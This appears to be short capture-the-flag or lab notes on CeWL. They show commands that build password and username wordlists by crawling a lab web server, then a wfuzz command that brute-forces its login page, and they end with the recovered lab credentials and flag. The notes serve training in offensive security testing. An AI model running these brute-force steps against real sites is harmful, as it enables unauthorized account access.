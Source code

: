<h3> CeWL </h3>
-CeWL is a customized wordlist generator good for spidering webpages

```
cewl http://<ip> -w <outputFile>
```

<h3> Challenge </h3>
```
cewl http://<ip> -w <outputFile> -d <linksDeep> -m <minimum> -x <maximum> -a <handleAuthentication> --with-numbers --extension
```

1. Gather password list
```
cewl -d 2 -m 5 -w passwords.txt http://10.10.6.223 --with-numbers
```

2. Gather username list based on team members webpage
```
cewl -d 0 -m 5 -w usernames.txt http://10.10.6.223/team.php --lowercase
```

3. Brute force login.php using wfuzz
```
wfuzz -c -z file,usernames.txt -z file,password.txt --hs "Please enter the correct credentials" -u http://10.10.6.223/login.php -d "username=FUZZ&password=FUZ2Z"
```

4. Found credentials
![[Pasted image 20231214141821.png]]

5. Login to website using isaias:Happiness and found the flag in 'Confidential Message'
